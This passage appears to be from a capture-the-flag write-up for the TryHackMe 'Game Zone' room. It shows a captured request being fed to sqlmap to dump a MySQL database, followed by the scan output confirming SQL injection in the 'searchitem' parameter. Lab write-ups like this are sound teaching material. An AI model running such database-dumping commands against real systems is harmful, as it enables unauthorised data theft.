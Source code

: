 This was then saved to a file called sqlrequest.txt.

By the way, it is also possible to view the request using the developer tools in Firefox from the Network tab. 

After capturing the request, we then feed this into SQLmap

```
sqlmap -r sqlrequest.txt -dbms mysql -dump
```
where 

-r : use the intercepted request

-dbms : what database we are dealing with

-dump : dump the entire database.

This yields the following

```
(dspo6㉿kali)[~/pentest/boxes/thm/game_zone]$ sqlmap -r sqlrequest.txt -dbms mysql -dump
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:49:55 /2021-02-19/

[10:49:55] [INFO] parsing HTTP request from 'sqlrequest.txt'
[10:49:55] [INFO] testing connection to the target URL
[10:49:55] [INFO] testing if the target URL content is stable
[10:49:55] [INFO] target URL content is stable
[10:49:55] [INFO] testing if POST parameter 'searchitem' is dynamic
[10:49:56] [WARNING] POST parameter 'searchitem' does not appear to be dynamic
[10:49:56] [INFO] heuristic (basic) test shows that POST parameter 'searchitem' might be injectable (possible DBMS: 'MySQL')
[10:49:56] [INFO] heuristic (XSS) test shows that POST parameter 'searchitem' might be vulnerable to cross-site scripting (XSS) attacks
[10:49:56] [INFO] testing for SQL injection on POST parameter 'searchitem'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[10:50:02] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:50:02] [WARNING] reflective value(s) found and filtering out
[10:50:04] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[10:50:04] [INFO] testing 'Generic inline queries'
[10:50:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[10:50:14] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[10:50:16] [INFO] POST parameter 'searchitem' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="be")
[10:50:16] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[10:50:16] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[10:50:16] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[10:50:17] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[10:50:17] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[10:50:17] [INFO] POST parameter 'searchitem' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[10:50:17] [INFO] testing 'MySQL inline queries'
[10:50:17] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
```